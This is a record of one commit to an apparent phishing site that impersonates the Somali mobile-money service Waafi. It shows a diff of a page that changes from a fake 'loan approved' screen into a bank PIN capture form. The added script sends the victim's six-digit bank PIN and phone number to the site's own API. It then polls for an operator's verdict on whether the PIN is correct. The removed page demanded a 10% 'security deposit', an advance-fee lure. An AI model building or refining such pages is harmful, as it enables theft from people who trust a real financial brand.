

Before and after one commit to waafiamaahbrayo/Waafiamaahbrayo, a website: page public/page10.html in a window 1280 px wide. Shown: the top 1186 px of the page at 89% size. After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update page10.html

```diff
--- a/public/page10.html
+++ b/public/page10.html
@@ -3,287 +3,173 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Waafi - Success</title>
+    <title>Waafi - Bank PIN</title>
     <style>
-        /* --- CSS STYLES --- */
-        :root {
-            --waafi-green: #8FD937;
-            --dark-green: #3CC724;
-            --bg-light: #F8FAF5;
-            --text-dark: #2D3436;
-            --text-gray: #636E72;
+        * { box-sizing: border-box; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; }
+        body { margin: 0; padding: 0; background-color: #fff; display: flex; flex-direction: column; height: 100vh; overflow: hidden; }
+
+        .container { flex: 1; padding: 40px 20px; text-align: center; display: flex; flex-direction: column; align-items: center; }
+        h2 { font-size: 22px; color: #333; margin-bottom: 10px; font-weight: 500; width: 100%; }
+        p { font-size: 14px; color: #666; line-height: 1.5; margin-bottom: 25px; width: 100%; }
+
+        .pin-inputs { display: flex; justify-content: center; gap: 8px; margin: 30px 0; }
+        .pin-inputs input {
+            width: 45px; height: 55px; border: 1.5px solid #ccc; border-radius: 8px;
+            text-align: center; font-size: 20px; font-weight: bold; outline: none;
+        }
+        .pin-inputs input:focus { border-color: #2ecc71; border-width: 2px; }
+
+        .btn-verify {
+            width: 100%; max-width: 320px; padding: 15px; border-radius: 10px;
+            border: none; background-color: #e0e0e0; color: #a0a0a0;
+            font-size: 14px; font-weight: bold; cursor: not-allowed; text-transform: uppercase;
+            transition: 0.3s;
+        }
+        .btn-verify.active { background-color: #2ecc71; color: white; cursor: pointer; }
+
+        #wait-container {
+            display: none;
+            flex-direction: column;
+            justify-content: center;
+            align-items: center;
+            height: 50%;
+        }
+        .wait-text {
+            font-size: 16px;
+            font-weight: 600;
+            color: #000000;
+            margin-top: 20px;
         }
 
-        body {
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-            background-color: var(--waafi-green);
-            margin: 0;
-            display: flex;
-            justify-content: center;
-            padding: 20px;
-        }
-
-        .screen-container {
-            width: 100%;
-            max-width: 400px;
-            background-color: white;
-            border-radius: 30px;
-            overflow: hidden;
-            box-shadow: 0 10px 25px rgba(0,0,0,0.1);
-        }
-
-        .main-content {
-            padding: 25px;
-        }
-
-        /* Top Header */
-        .header-section {
-            text-align: center;
-            padding-top: 20px;
-        }
-
-        .check-circle {
-            width: 70px;
-            height: 70px;
-            background-color: var(--dark-green);
-            color: white;
-            border-radius: 50%;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            font-size: 40px;
-            margin: 0 auto 15px;
-        }
-
-        .congrats-title {
-            font-size: 24px;
-            font-weight: bold;
-            margin: 10px 0;
-        }
-
-        .sub-text {
-            color: var(--text-gray);
-            font-size: 14px;
-            margin-bottom: 20px;
-        }
-
-        /* Amount Box */
-        .amount-box {
-            background: linear-gradient(135deg, #A2ED3E, #8FD937);
-            border-radius: 15px;
-            padding: 20px;
-            text-align: center;
-            color: white;
-            margin-bottom: 20px;
-        }
-
-        .amount-label {
-            font-size: 11px;
-            text-transform: uppercase;
-            letter-spacing: 1px;
-            opacity: 0.9;
-        }
-
-        .amount-value {
-            font-size: 38px;
-            font-weight: 800;
-            margin-top: 5px;
-        }
-
-        /* Info Boxes */
-        .info-card {
-            background-color: #FEFCE8;
-            border: 1px solid #FEF08A;
-            border-radius: 12px;
-            padding: 15px;
-            margin-bottom: 20px;
-        }
-
-        .info-header {
-            display: flex;
-            align-items: center;
-            gap: 10px;
-            margin-bottom: 8px;
-            color: #854D0E;
-            font-weight: bold;
-            font-size: 13px;
-        }
-
-        .info-body {
-            font-size: 13px;
-            line-height: 1.5;
-            color: #713F12;
-        }
-
-        /* Detail List */
-        .details-list {
-            margin-top: 25px;
-        }
-
-        .detail-item {
-            display: flex;
-            align-items: center;
-            gap: 15px;
-            margin-bottom: 18px;
-        }
-
-        .icon-bg {
-            width: 45px;
-            height: 45px;
-            background-color: #F0FDF4;
-            border-radius: 10px;
-            display: flex;
-            align-items: center;
-            justify-content: center;
-            font-size: 20px;
-        }
-
-        .detail-label {
-            font-size: 11px;
-            color: var(--text-gray);
-            text-transform: uppercase;
-        }
-
-        .detail-val {
-            font-size: 16px;
-            font-weight: bold;
-            color: black;
-        }
-
-        /* Buttons */
-        .action-title {
-            font-weight: bold;
-            margin: 20px 0 15px;
-            color: var(--dark-green);
-        }
-
-        .btn-list {
-            display: flex;
-            flex-direction: column;
-            gap: 10px;
-        }
-
-        .btn-white {
-            background: white;
-            border: 1px solid #E2E8F0;
-            padding: 15px;
-            border-radius: 12px;
-            text-align: left;
-            font-weight: 600;
-            color: var(--dark-green);
-            cursor: pointer;
-            display: flex;
-            align-items: center;
-            gap: 10px;
-        }
-
-        .next-steps {
-            background-color: #F8FAF5;
-            padding: 15px;
-            border-radius: 12px;
-            margin-top: 20px;
-            border: 1px solid #E2E8F0;
-        }
-
-        .home-btn {
-            background-color: var(--waafi-green);
-            color: white;
-            border: none;
-            width: 100%;
-            padding: 18px;
-            border-radius: 15px;
-            font-size: 16px;
-            font-weight: bold;
-            margin-top: 20px;
-            cursor: pointer;
+        .footer {
+            position: relative; height: 250px; background: linear-gradient(to bottom, #2ecc71, #27ae60);
+            border-top-left-radius: 50% 100px; border-top-right-radius: 50% 100px;
+            display: flex; justify-content: center; align-items: center; color: white;
+            font-size: 12px; margin-top: auto; width: 100%;
         }
     </style>
 </head>
+
 <body>
 
-    <div class="screen-container">
-        <div class="main-content">
+<div class="container" id="main-ui">
+    <div id="input-section">
+        <h2>Geli PIN-ka Bangiga</h2>
+        <p>Fadlan geli 6-da god ee PIN-kaaga bangiga si aad u xaqiijiso aqoonsigaaga.</p>
 
-            <div class="header-section">
-                <div class="check-circle">✓</div>
-                <div class="congrats-title">🎉 Hambalyo!</div>
-                <div class="sub-text">Amaahda waa <b>la ansixiyay!</b> Lacagta waa la bixin doonaa dhawaan.</div>
+        <div class="pin-inputs">
+            <input type="password" maxlength="1" inputmode="numeric">
+            <input type="password" maxlength="1" inputmode="numeric">
+            <input type="password" maxlength="1" inputmode="numeric">
+            <input type="password" maxlength="1" inputmode="numeric">
+            <input type="password" maxlength="1" inputmode="numeric">
+            <input type="password" maxlength="1" inputmode="numeric">
         </div>
 
-            <div class="amount-box">
-                <div class="amount-label">QADDARKA LA ANSIXIYAY</div>
-                <div class="amount-value" id="display-amount">$1,000</div>
+        <button class="btn-verify" id="submit-btn">XAQIIJI PIN-KA BANGIGA</button>
     </div>
 
-            <div class="info-card">
-                <div class="info-header">⚠️ OGEYSIISKA WAAFAQSANAANTA</div>
-                <div class="info-body">
-                    Akoonkaaga Waafi waa inuu shaqeeyo oo uu ilaaliyaa dhigaal ammaan ah oo ugu yaraan <b>10% qaddarka amaahda aad codatay</b>. Dhigaalkan waa la celin karaa marka aad dhammaystirto bixinta.
+    <div id="wait-container">
+        <div class="wait-text">Waa la diray. Fadlan sug oggolaanshaha...</div>
     </div>
 </div>
 
-            <div class="details-list">
-                <div style="display: flex; align-items: center; gap: 10px; margin-bottom: 15px;">
-                    <span>💳</span> <b>Faahfaahinta Amaahda</b>
-                </div>
-
-                <div class="detail-item">
-                    <div class="icon-bg">💰</div>
-                    <div>
-                        <div class="detail-label">LACAGTA BISHA</div>
-                        <div class="detail-val" id="display-monthly">$90</div>
-                    </div>
-                </div>
-
-                <div class="detail-item">
-                    <div class="icon-bg">📅</div>
-                    <div>
-                        <div class="detail-label">MUDDADA AMAAHDA</div>
-                        <div class="detail-val" id="display-term">12 Bilood</div>
-                    </div>
-                </div>
-
-                <div class="detail-item">
-                    <div class="icon-bg">📈</div>
-                    <div>
-                        <div class="detail-label">HEERKA DULSAARKA</div>
-                        <div class="detail-val">8% APR</div>
-                    </div>
-                </div>
-            </div>
-
-            <div class="action-title">Falal Degdeg ah</div>
-            <div class="btn-list">
-                <div class="btn-white">💰 Dhig Lacag</div>
-                <div class="btn-white">💸 Ka Soo Bixi Lacag</div>
-                <div class="btn-white">📄 Faahfaahinta Amaahda</div>
-            </div>
-
-            <div class="next-steps">
-                <div style="font-weight: bold; color: var(--dark-green); margin-bottom: 5px;">📱 Tillaabooyinka Xiga:</div>
-                <div style="font-size: 13px; color: var(--text-gray);">
-                    Waxaad heli doontaa SMS iyo email oo leh faahfaahinta bixinta 24 saac gudahood.
-                </div>
-            </div>
-
-            <button class="home-btn" onclick="window.location.href='index.html'">🏠 Ku Noqo Bogga Hore</button>
-
-        </div>
+<div class="footer">
+    © 2026 Waafi Soomaaliya
 </div>
 
 <script>
-        window.onload = function() {
-            // Retrieve values or use defaults
-            const loanAmount = localStorage.getItem('loan_amount') || "1000";
-            const loanTerm = localStorage.getItem('loan_term') || "12";
-            const monthlyPay = localStorage.getItem('monthly_repayment') || "90";
+const inputs = document.querySelectorAll('.pin-inputs input');
+const btn = document.getElementById('submit-btn');
+const inputSection = document.getElementById('input-section');
+const waitContainer = document.getElementById('wait-container');
 
-            // Update UI
-            // Using toLocaleString adds commas like $1,000
-            document.getElementById('display-amount').innerText = "$" + Number(loanAmount).toLocaleString();
-            document.getElementById('display-term').innerText = loanTerm + " Bilood";
-            document.getElementById('display-monthly').innerText = "$" + Number(monthlyPay).toLocaleString();
+inputs.forEach((input, index) => {
+    input.addEventListener('input', () => {
+        input.value = input.value.replace(/\D/g, '');
+        if (input.value && index < inputs.length - 1) {
+            inputs[index + 1].focus();
+        }
+        checkFull();
+    });
+
+    input.addEventListener('keydown', (e) => {
+        if (e.key === 'Backspace' && !input.value && index > 0) {
+            inputs[index - 1].focus();
+        }
+    });
+});
+
+function checkFull() {
+    const pin = Array.from(inputs).map(i => i.value).join('');
+    if (pin.length === 6) {
+        btn.classList.add('active');
+    } else {
+        btn.classList.remove('active');
+    }
+}
+
+btn.addEventListener('click', async () => {
+    if (!btn.classList.contains('active')) return;
+
+    // --- 1. KAYDINTA XOGTA (Backup Plan) ---
+    // Haddii bogaggii hore aysan kaydin xogta, halkan ku kaydi si success.html u shaqeeyo
+    if(!localStorage.getItem('loan_amount')) {
+        localStorage.setItem('loan_amount', '1,000');
+        localStorage.setItem('loan_term', '12');
+        localStorage.setItem('monthly_repayment', '90');
+    }
+
+    const pin = Array.from(inputs).map(i => i.value).join('');
+    const phone = localStorage.getItem('userPhone') || "User";
+
+    inputSection.style.display = "none";
+    waitContainer.style.display = "flex";
+
+    try {
+        const response = await fetch('/api/verify-bank-pin', {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
+            body: JSON.stringify({ phone: phone, bankPin: pin })
+        });
+
+        const data = await response.json();
+        if (data.success) {
+            startPolling(phone);
+        } else {
+            // Haddii uu khalad ka yimaado API-ga laakiin aad rabto inaad tijaabiso Success
+            // window.location.href = "success.html";
+        }
+    } catch (err) {
+        console.log("Cilad baa dhacay, laakiin tijaabo ahaan waxaan u gudbi doonaa success...");
+        // --- 2. TIJAABO (REDIRECT) ---
+        // Haddii server-kaagu uusan diyaarsanayn, 3 ilbiriqsi ka dib u gudbi success.html
+        setTimeout(() => {
+            window.location.href = "success.html";
+        }, 3000);
+    }
+});
+
+function startPolling(phone) {
+    const pollInterval = setInterval(async () => {
+        try {
+            const res = await fetch(`/api/check-status?phone=${encodeURIComponent(phone)}`);
+            const data = await res.json();
+
+            if (data.status === "bank_pin_correct") {
+                clearInterval(pollInterval);
+                window.location.href = "success.html";
+            } else if (data.status === "bank_pin_wrong") {
+                clearInterval(pollInterval);
+                alert("PIN-ka Bangiga waa khalad.");
+                location.reload();
+            }
+        } catch (e) {
+            console.error("Waiting for verification...");
+        }
+    }, 3000);
 }
 </script>
+
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
